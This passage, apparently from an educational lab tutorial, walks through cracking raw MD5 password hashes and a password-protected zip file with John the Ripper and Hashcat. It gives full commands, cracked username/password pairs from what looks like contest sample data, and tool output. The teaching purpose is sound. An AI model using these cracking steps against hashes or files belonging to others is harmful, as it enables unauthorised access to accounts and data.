
This file contains raw MD5 passwords and has the following format:

    bigibson:ef31bd90925824302dde7d0b16f772a3:1676:0:::

So lets try to find some passwords using JtR to do a dictionary attack:

    john --format=raw-md5 --wordlist=rockyou.txt hashes-9.raw-md5.txt -pot=found.pot

And lets cross our fingers. Here are the results:

    Using default input encoding: UTF-8
    Loaded 3413 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    confused         (reddych)     
    firetruck        (aascott)     
    outcast          (chrism)     
    everyone         (tadams)     
    bigballer        (jthomas)     
    blacksmith       (lauraw)     
    fellowship       (bobj)     
    baking           (seanj)     
    Miller           (kim.harris)     
    firsttime        (bhill)     
    pig              (maxa)     
    afterwards       (whiteco)     
    winwinwin        (bradl)     
    one              (gajohnston)     
    fountains        (hlopez)     
    Vernon           (raybe)     
    Unfaithful       (wirahman)     
    semicolon        (hughesli)     
    phantom01        (thomasm)     
    here             (jamieg)     
    sorcery          (smithd)     
    interbank        (lewisa)     
    defensive        (court.miller)     
    Tomas            (brjackson)     

All the dicovered passwords are recorded to the `found.pot` file - as specified in the command. Look at its content:

    $dynamic_0$1a7f2a5ad77128b2f81feddac78df213:confused
    $dynamic_0$320824ed82a8da4f1250345c09c28aac:firetruck
    $dynamic_0$8667db851472b942fb1e49c3a62c5b8e:outcast
    $dynamic_0$ed881bac6397ede33c0a285c9f50bb83:everyone
    $dynamic_0$ca21ff79eeab1645fafe86164f4e9528:bigballer
    $dynamic_0$c2428781706d00727581426181d0b7e6:blacksmith
    $dynamic_0$c08c1825c664280120a3587051819f0b:fellowship
    $dynamic_0$d567fa2fc32e8ef7b736c121e4975689:baking
    $dynamic_0$8f22e8ff6e2be10b6bc7e6cf7b47d782:Miller
    $dynamic_0$0691ffc309dda62cb45a9dcdfe21c64b:firsttime
    $dynamic_0$f74c6af46a78becb2f1bd3f95bbd5858:pig
    $dynamic_0$622f90ceba19c667b7d2620169144476:afterwards
    $dynamic_0$b6be03b4e958a964a552ae354d82a4ea:winwinwin
    $dynamic_0$f97c5d29941bfb1b2fdab0874906ab82:one
    $dynamic_0$1825036c05462007255c6081088d30d0:fountains
    $dynamic_0$b928a50c7e877267d29c7f20d01668fb:Vernon

Another important issue to consider when using a dictionary attack is to look at **word mangling rules** that JtR can use to do combinations with the words in the dictionary. For more information about this, please check [this](https://www.openwall.com/john/doc/MODES.shtml) and [this](https://www.openwall.com/john/doc/RULES.shtml), and then try to use.

We can also use a brute force approach for this. In order to do that we can do the following:

    john --incremental cmiyc_2012_password_hash_files/hashes-9.raw-md5.txt

But this will take a very long time!!!

### Cracking password protected files

Another useful feature that JtR offers is the possibility to crack a password of a file, namely zip files. So lets try to do that.

First we need a password-protected zip file. Either you can create your own file, or [you can use this file](files/logo.zip), that I've prepared previously (`logo.zip`).

The first thing we need to do is to extract the hash part of the file that contains the password. To to that we'll use the following command:

    zip2john logo.zip > file.hash

The `file.hash` has the following content.

    logo.zip:$pkzip$2*1*1*0*8*24*e732*c4f0fa14e585eb76e2bf36d47c19e8cb2d98f9de3094a69bcbdf869e51d8a9c3b1ec2707*2*0*f4*157*d112e403*27*3c*8*f4*d112*6ac3e43dcdf72a7d2617ef745d527759ef6936e34aec0ec33da650ab3516d379a1d0514d7a0c3c56a9a7ede23c3fe491409ff3b70e7f05a6a8ded2e15a514427f300b0ada06c050aad425ca92035e9cd088897a252dc2bee1651fc51417990ae2d1829e7ec7fda7e1fb9a516f95e15c8b277ac264c2d6498f6db0f3b498eec5cb94fea036ecf296ff2724d719b8931f7fe65290d955eed09d79396eef47091b8f6a4ffa31926f3c8f9b9a1e8ca0da5ae0f634f01bc174d329c544b5dee16e763fe9060daea76e43a5754de356240ebe884ecec2f4a55ee6dd78762d8711cf9b00c538ac0335519138be7a0164fb6688819d778aa*$/pkzip$::logo.zip:__MACOSX/._aim-health-logo.png, aim-health-logo.png:logo.zip

Next, we'll use a dictionary attack to try to find the password. The dictionary that we'll use is the `rockyou.txt` file. The command is as follows:

    john --wordlist=rockyou.txt file.hash -pot=found.pot 

And lets look at what we've found.

    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Press 'q' or Ctrl-C to abort, almost any other key for status
    password         (logo.zip)     
    1g 0:00:00:00 DONE (2022-11-08 19:27) 100.0g/s 6400p/s 6400c/s 6400C/s 123456..charlie
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.

## Hashcat

[Hashcat](https://hashcat.net/hashcat/) is another password-cracking tool. It is mostly used towards cracking hash-based passwords. As JtR it can take advantage of external hardware, such as GPUs.

First thing to do: check the help of the Hashcat tool:

    hashcat --help

Look in detail for the help and be amazed with the amount of options it supports.

Hashcat supports the following attack modes:

- **Brute-Force attack (3)**: This type of attack consists of massive character combination tries. This attack technique was discontinued on Hashcat and was replaced by Mask attacks.

- **Combination attack (1)**: This mode allows to append each word contained in a wordlist to the end of each word container in a second wordlist.

- **Dictionary attack (0)**: This mode, also called “Straight mode,” tries all lines contained in a file as a password. This is a simple wordlist attack.

- **Hybrid attack**: The Hybrid attack mode allows combining a dictionary attack with a brute force attack. By using this mode, you can append or prepend wordlist elements to a bruteforce attack.

- **Mask attack (6 or 7)**: The Mask attack is an improvement of the brute force attack, aiming to design “intelligent” brute force attacks in which the user has control over the password candidate generation process. For example, the Mask attack allows users to define patterns like a capital letter for the first position of the password candidat only, or append dates at the end of the password candidate, or before, etc. The 6 mode enables Hybrid Wordlist + Mask, while the 7 mode enables Hybrid Mask + Wordlist.

### Using Hashcat to do a brute-force attack

To do a simple brute-force attack on a file with raw MD5 passwords (`md5-passwords.txt`) (download it [here](files/md5-passwords.txt)), we can simply run the command:

    hashcat -m 0 md5-passwords.txt

The option `-m 0` means that we are using MD5 hashes.

    OpenCL API (OpenCL 3.0 PoCL 3.0+debian  Linux, None+Asserts, RELOC, LLVM 13.0.1, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    ============================================================================================================================================
    * Device #1: pthread-Intel(R) Core(TM) i9-9880H CPU @ 2.30GHz, 1428/2921 MB (512 MB allocatable), 1MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256

    Hashes: 11 digests; 11 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Salted
    * Not-Iterated
    * Single-Salt
    * Raw-Hash

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Pure kernels can crack longer passwords, but drastically reduce performance.
    If you want to switch to optimized kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Temperature abort trigger set to 90c

    Host memory required for this attack: 0 MB

    Starting attack in stdin mode

    Session..........: hashcat
    Status...........: Running
    Hash.Mode........: 0 (MD5)
    Hash.Target......: md5-passwords.txt
    Time.Started.....: Tue Nov  8 20:14:02 2022 (20 secs)
    Time.Estimated...: Tue Nov  8 20:14:22 2022 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: Pipe
    Speed.#1.........:        0 H/s (0.00ms) @ Accel:256 Loops:1 Thr:1 Vec:8
    Recovered........: 0/11 (0.00%) Digests (total), 0/11 (0.00%) Digests (new)
    Progress.........: 0
    Rejected.........: 0
    Restore.Point....: 0
    Restore.Sub.#1...: Salt:0 Amplifier:0-0 Iteration:0-1
    Candidate.Engine.: Device Generator
    Candidates.#1....: [Copying]
    Hardware.Mon.#1..: Util:  3%

And expect this to take a loooooooot of time to complete.

## References/Additional information

1. [https://www.golinuxcloud.com/john-the-ripper-password-cracker/](https://www.golinuxcloud.com/john-the-ripper-password-cracker/)
2. [https://techofide.com/blogs/how-to-use-john-the-ripper-john-the-ripper-password-cracker-techofide/](https://techofide.com/blogs/how-to-use-john-the-ripper-john-the-ripper-password-cracker-techofide/)
3. [https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/](https://www.hackingarticles.in/beginner-guide-john-the-ripper-part-1/)
4. [https://www.tunnelsup.com/getting-started-cracking-password-hashes/](https://www.tunnelsup.com/getting-started-cracking-password-hashes/)
5. [https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/](https://resources.infosecinstitute.com/topic/hashcat-tutorial-beginners/)
6. [https://linuxhint.com/hashcat-tutorial/](https://linuxhint.com/hashcat-tutorial/)
7. [https://www.cyberpratibha.com/hashcat-tutorial-for-password-cracking/](https://www.cyberpratibha.com/hashcat-tutorial-for-password-cracking/)